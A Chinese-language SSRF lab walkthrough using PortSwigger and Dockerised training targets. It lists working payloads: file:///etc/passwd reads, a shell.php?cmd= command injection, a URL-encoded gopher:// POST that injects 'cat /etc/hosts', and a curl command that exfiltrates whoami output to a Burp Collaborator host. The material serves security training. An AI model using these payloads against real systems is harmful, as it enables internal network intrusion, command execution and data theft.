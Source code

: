 使用工具：BurpSuite+Paramalyzer插件

使用的靶机：我们用portswigger提供的这个基本的环境试试看

> [通过SSRF访问后端系统](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

目标：... use the stock check functionality to scan the internal **192.168.0.X** range for an admin interface on port **8080**, then use it to **delete the user carlos**


```mermaid
graph LR
    遍历网站页面 ---> 搜索特征 ---> 定位漏洞 ---> 本机各种协议尝试  
    ---> 后端网络各种尝试

```

此处是攻击的展示和效果。



### 2.2 多种服务的尝试

上一个案例只有一台服务器，所以只涉及本机的不同服务和外网连接的尝试，而SSRF能发挥最大功用的地方恰恰是内网的各种敏感服务。所以我们用另外一套靶机系统来演示SSRF对内网服务的利用。

![](./images/total.png)

使用的靶机：

>  原版源代码和文档：https://github.com/sqlsec/ssrf-vuls 
>  Docker化环境：      https://github.com/Duoduo-chino/ssrf_vul
>  攻击方式：               https://www.sqlsec.com/2021/05/ssrf.html

入口：http://宿主机-ip:8080/

#### http/https协议：
```
www.baidu.com
https://www.baidu.com/robots.txt 
```

#### 文件协议：
```
file:///etc/passwd 
file:///etc/hosts 
```

#### GET方式的命令注入
```
http://172.72.23.22/phpinfo.php 
http://172.72.23.22/shell.php?cmd=cat%20/etc/hosts 
```

#### POST方式的命令注入
```
gopher://172.72.23.24:80/_%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%33%33%0d%0a%4f%72%69%67%69%6e%3a%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%31%2e%31%30%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%69%70%3d%6c%6f%63%61%6c%68%6f%73%74%25%33%42%63%61%74%2b%25%32%46%65%74%63%25%32%46%68%6f%73%74%73
```
####  盲试的SSRF
在无法回显的时候，可以使用带外攻击的方式，把数据带出来：
```
http://172.72.23.22/shell.php?cmd=curl%20`whoami`.hxi82q5lsv4jm2k5fg6oq6a8tzzpne.burpcollaborator.net 
```
上面是利用了BurpSuite提供的Burp Collaborator服务（类似的服务还有很多，搜“带外攻击”可见），如：
- http://www.dnslog.cn